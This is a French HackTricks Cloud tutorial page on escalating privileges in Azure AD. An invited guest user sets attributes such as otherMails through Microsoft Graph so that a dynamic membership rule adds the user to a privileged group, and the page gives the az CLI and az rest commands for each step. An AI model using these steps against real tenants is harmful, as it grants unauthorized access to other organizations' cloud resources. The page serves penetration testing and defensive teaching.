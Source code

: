 # Az - Privesc des Groupes Dynamiques

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## Informations de Base

Les **groupes dynamiques** sont des groupes qui ont un ensemble de **règles** configurées et tous les **utilisateurs ou appareils** qui correspondent aux règles sont ajoutés au groupe. Chaque fois qu'un **attribut** d'utilisateur ou d'appareil est **modifié**, les règles dynamiques sont **vérifiées à nouveau**. Et lorsqu'une **nouvelle règle** est **créée**, tous les appareils et utilisateurs sont **vérifiés**.

Les groupes dynamiques peuvent avoir des **rôles Azure RBAC assignés** à eux, mais il **n'est pas possible** d'ajouter des **rôles AzureAD** aux groupes dynamiques.

Cette fonctionnalité nécessite une licence Azure AD premium P1.

## Privesc

Notez qu'en règle générale, tout utilisateur peut inviter des invités dans Azure AD, donc, si une **règle** de groupe dynamique donne des **permissions** aux utilisateurs en fonction des **attributs** qui peuvent être **définis** dans un nouvel **invité**, il est possible de **créer un invité** avec ces attributs et **d'escalader les privilèges**. Il est également possible pour un invité de gérer son propre profil et de modifier ces attributs.

Obtenez les groupes qui permettent l'adhésion dynamique : **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Exemple

* **Exemple de règle** : `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Description de la règle** : Tout utilisateur invité avec un email secondaire contenant la chaîne 'security' sera ajouté au groupe

Pour l'email de l'utilisateur invité, acceptez l'invitation et vérifiez les paramètres actuels de **cet utilisateur** sur [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Malheureusement, la page ne permet pas de modifier les valeurs des attributs, donc nous devons utiliser l'API :

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Références

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
